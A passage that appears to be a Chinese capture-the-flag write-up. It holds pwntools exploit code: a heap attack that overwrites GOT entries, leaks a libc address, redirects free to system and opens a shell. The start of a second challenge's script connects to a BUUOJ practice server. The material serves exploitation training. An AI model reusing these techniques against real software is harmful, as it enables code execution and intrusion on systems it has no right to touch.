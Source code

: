```python
	p.recvuntil("size: ")
	p.sendline(str(size))
	p.recvuntil("content: ")
	p.send(con)

def free(idx):
	p.recvuntil("your choice: ")
	p.sendline("2")
	p.recvuntil("index: ")
	p.sendline(str(idx))

def edit(idx,con):
	p.recvuntil("your choice: ")
	p.sendline("3")
	p.recvuntil("index: ")
	p.sendline(str(idx))
	p.recvuntil("content: ")
	p.send(con)

allo(16,0x10,p64(0)+p64(0x51))
allo(1,0xc0,"aaaa")
free(0)
free(1)
allo(2,0x40,p64(0)+p64(0x41)+p64(0x6020e0))
allo(3,0xc0,"aaaa")
allo(4,0xc0,p64(elf.got["free"]&0xffffffffffffff10)+p64(elf.got["alarm"]|1)+p64(elf.got["atoi"])+p64(0)*17+p32(0x30)*8)

edit(0,p64(elf.plt["puts"])*2)
free(1)
ad=u64(p.recv(6).ljust(8,"\x00"))
log.info("ad: "+hex(ad))

libc_base=ad-libc.sym["alarm"]&0xffffffffffffff00
log.info("libc_base: "+hex(libc_base))


sys_ad=libc_base+libc.sym["system"]
log.info("sys_ad: "+hex(sys_ad))
edit(8,p64(sys_ad)*2)
#gdb.attach(p)
p.recvuntil("your choice: ")
p.sendline("/bin/sh\x00")
p.interactive()
```

### 3.wdb_2018_3rd_soEasy ###
一个简单的shellcode题，给了栈地址，直接ret过去就可以了
```python
from pwn import *
from LibcSearcher import *
from struct import pack
a=0
b=1
elf=ELF("./pwn")
libc=ELF("./libc-2.23.so")
context.os='linux'
context.arch='i386'
#context.log_level='debug'
if(a==1):
	p=process("./pwn")
else:
	p=remote("node4.buuoj.cn",27380)
```